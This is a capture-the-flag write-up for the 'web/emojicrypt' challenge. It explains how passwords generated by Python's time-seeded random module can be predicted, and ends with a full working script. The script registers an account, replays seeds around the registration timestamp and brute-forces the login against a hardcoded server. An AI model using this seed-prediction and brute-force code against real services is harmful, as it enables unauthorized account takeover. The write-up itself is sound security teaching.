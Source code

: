 
# Writeup for `web/emojicrypt`, Hacking Time and Randomization

## Vulnerability Overview

`web/emojicrypt` Uses `random.choice(NUMBERS)  for  _  in  range(32)` with the default seed. Normally, in python3, the default seed is the current Unix timestamp. (See https://www.unixtimestamp.com/ for more explanation on the Unix Timestamp format.) Because of this, we can simply find out the timestamp by going from 50 seeds before the timestamp to 50 seeds after, allowing us to find out the password.

## Application Architecture

The application consists of:
1. A web frontend that allows users to login and register
2. A random password generator via `random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))`
3. A simple database accessed by `DATABASE  =  'users.db'` and `cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?",  (username,))` 

## Vulnerability Details

The vulnerability exists in the `register()` function, specifically in line 46:

```python
random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))
```

Looking at the definition of python's `random.seed()` function, it states that:
` None or no argument seeds from current time or from an operating system specific randomness source if available.`
Which means that since the server is running on Linux, we can assume that the seed is derived from the Unix Time-stamp. which means that we can potentially get the seed just by looking at the time.

## Exploit Chain
To demonstrate this part of the writeup, we will pretend that english is code.
1. First, Register an account:

```
unique_suffix  =  randnum(1000,9999)
Username = "Wehacking" + unique_suffix	
Email  =  "exploit_(unique_suffix)@example.com"
timebeforeregister = gettimebeforeregister
startsession
payload = {'username' : Username, 'email' : Email}
post(payload)
if respcode is 200:
	print its working!!
```
	


2. Do the following:
   - have a variable thats `timebeforegister` + 1 and `timebeforegister` - 50
   - Then loop thru each of these numbers generating an instance of that seed (like `1744021834`,`1744021835`,`1744021836` and so on.
   - Generate a password with each seed
   - Try each password until you get the correct password.

## Root Cause Analysis


1. **Poor Time-Based Attack Mitigation**: The application relies on time-based values (the Unix timestamp) to seed the random generator. This is insecure because an attacker can brute-force possible seeds within a range of Unix timestamps, giving them a manageable set of seeds to test.
2. **Lack of Rate-Limiting or Delays**: The application is vulnerable to brute-force attacks by allowing to repeatedly try passwords within a small window without rate-limiting or delays between attempts. Because of this, the attacker can try a large number of passwords in a short amount of time, reducing the effort needed to guess the correct password.

## Automation Code
```py 
import requests
import random
import time
import sys

# --- Configuration ---
# <<< CHANGE MADE HERE >>>
BASE_URL = "http://52.188.82.43:8060"
# <<< END CHANGE >>> 

REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"


unique_suffix = str(random.randint(1000, 9999)) # Add randomness 
USERNAME = f"exploit_user_{unique_suffix}"
EMAIL = f"exploit_{unique_suffix}@example.com"

# Constants from the Flask app (ensure these match the target server)
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
 
# How many seconds around the registration time to check for seeds
SEED_SEARCH_RANGE_SECONDS = 50 # Increased slightly for potential network delay/clock skew

# --- Exploit Logic ---

print(f"Targeting server: {BASE_URL}")
print(f"Attempting to register user: {USERNAME} / {EMAIL}")

# Get time just before registration
start_time = time.time()
registration_timestamp_guess = int(start_time)

try:
    # Use a session to handle cookies if necessary
    session = requests.Session()

    register_payload = {
        'username': USERNAME,
        'email': EMAIL
    }
    # Attempt registration
    reg_response = session.post(REGISTER_URL, data=register_payload, timeout=15) # Increased timeout
    print(f"Registration attempt status: {reg_response.status_code}")

    # Check if registration seemed successful (redirect expected, or 400 if user exists)
    if reg_response.status_code == 200:
        print("Registration successful.")
    elif reg_response.status_code == 400:
        print("Registration failed (status 400) - User likely already exists. Trying to log in anyway.")

    else:
         print(f"Warning: Unexpected registration status code: {reg_response.status_code}")
         print(f"Response text: {reg_response.text}")
         # Continue anyway, maybe it still worked enough

except requests.exceptions.RequestException as e:
    print(f"Error during registration: {e}")
    sys.exit(1)

print(f"Registration attempt finished. Estimated timestamp: {registration_timestamp_guess}")
print(f"Searching seeds from {registration_timestamp_guess - SEED_SEARCH_RANGE_SECONDS} to {registration_timestamp_guess + SEED_SEARCH_RANGE_SECONDS}")

found_flag = False
# Iterate through potential seeds (timestamps around registration time)
for seed_offset in range(-SEED_SEARCH_RANGE_SECONDS, SEED_SEARCH_RANGE_SECONDS + 1):
    current_seed = registration_timestamp_guess + seed_offset
    
    print(f"[*] Trying seed: {current_seed}...")
    

    # Seed the local random generator
    random.seed(current_seed)

    # --- Simulate server's random generation ---
    # 1. Simulate salt generation (advance the PRNG state 12 times)
    _ = random.choices(EMOJIS, k=12)

    # 2. Simulate password generation (next 32 random choices)
    predicted_password = ''.join(random.choice(NUMBERS) for _ in range(32))

    # --- Attempt Login ---
    login_payload = {
        'username': USERNAME,
        'password': predicted_password
    }

    try:
     
        login_response = session.post(LOGIN_URL, data=login_payload, allow_redirects=False, timeout=10)

        if login_response.status_code == 200:
            # Print a newline to clear the "... trying seed" line
            print("\n" + "="*20)
            print(f"[+] SUCCESS! Found correct password with seed: {current_seed}")
            print(f"[+] Used Username: {USERNAME}")
            print(f"[+] Predicted Password: {predicted_password}")
            print(f"[+] Flag/Response:")
            # Try to decode if bytes, otherwise print text
            try:
                print(login_response.content.decode('utf-8'))
            except UnicodeDecodeError:
                print(login_response.content) 
            print("="*20 + "\n")
            found_flag = True
            break 

    except requests.exceptions.Timeout:
       
        print(f"[!] Timeout during login attempt with seed {current_seed}. Trying next...", ' '*20, end='\r')
        sys.stdout.flush()
        # Continue to the next seed
    except requests.exceptions.RequestException as e:
        # Print a newline to clear the "... trying seed" line
        print("\n")
        print(f"[!] Error during login attempt with seed {current_seed}: {e}")
        # Potentially add a small delay before continuing if errors persist
        time.sleep(0.5)
        # Continue to the next seed

# Clear the "Trying seed..." line if loop finishes without success
print(" " * 80, end='\r')

if not found_flag:
    print("\n[-] Exploit failed. Could not find the correct password within the seed range.")
    
```
